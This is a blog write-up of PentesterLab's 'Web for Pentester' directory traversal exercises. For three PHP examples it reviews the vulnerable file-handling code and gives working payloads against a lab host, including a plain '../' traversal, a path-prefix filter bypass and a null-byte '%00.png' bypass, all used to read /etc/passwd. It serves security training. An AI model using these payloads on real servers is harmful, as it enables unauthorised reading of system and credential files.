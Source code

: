 ```yaml
---
layout: post
title: "PentesterLab -- Web for Pentester - Directory Traversal"
date: 2016-03-11 16:13:32 -0500
comments: true
categories: [pentesterlab, directory traversal, web pentest]
---
```


Web for Pentester directory traversal:
    This exercise is a set of the most common web vulnerabilities 

Difficluty: 1/5
<!--more-->

Tool: Burp Suite
	  Firebug

###Example 1

code review:

```php example1.php
<?php 

$UploadDir = '/var/www/files/'; 

if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file;

if (!is_file($path))
	die();
...

```
The developer does not filter `$file = $_GET['file'];`, so that I can just use `file=../../../../../../../../etc/passwd` to get `etc/passwd`

manual exploit:

`http://192.168.79.162/dirtrav/example1.php?file=../../../../../../../../etc/passwd`

Burp exploit:

[![burp dir trav](http://i.imgur.com/7YTMFQp.png)](https://vimeo.com/159110994 "Click to Watch")


### Example 2

code review:

```php example2.php

<?php 


if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

if (!(strstr($file,"/var/www/files/")))
	die();

if (!is_file($file))
	die();
	...
```
The developer tried to filer file by using `/var/www/files/`, so if I just use `file=etc/passwd` wont't work. However I can use `file=/var/wwww/files/../../../../../etc/passwd` to get passwd file.

manual exploit:

`http://192.168.79.162/dirtrav/example2.php?file=/var/www/files/../../../../etc/passwd` 


###Example 3

code review:

```php example3.php
if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file.".png";
// Simulate null-byte issue that used to be in filesystem related functions in PHP
$path = preg_replace('/\x00.*/',"",$path);

if (!is_file($path))
	die();
	...
```
The developer tried to filter the file var. However, I can still use Null character to bypass it.
The web application will check the path extension and verify that it is a .png file, bypassing the filter. When this path is passed to the filesystem, the null byte character effectively tells the filesystem to ignore anything that comes after it. When the path is resolved by the filesystem, it interprets the directory traversal vulns and transforms ‘/var/www/images/../../../etc/passwd%00new.png’ into ‘/etc/passwd’. 

manual exploit:

`http://192.168.79.162/dirtrav/example3.php?file=../../../../etc/passwd%00.png`

####reference
[Directory Traversal](https://www.fishnetsecurity.com/6labs/blog/common-web-application-vulnerabilities-part-6) 


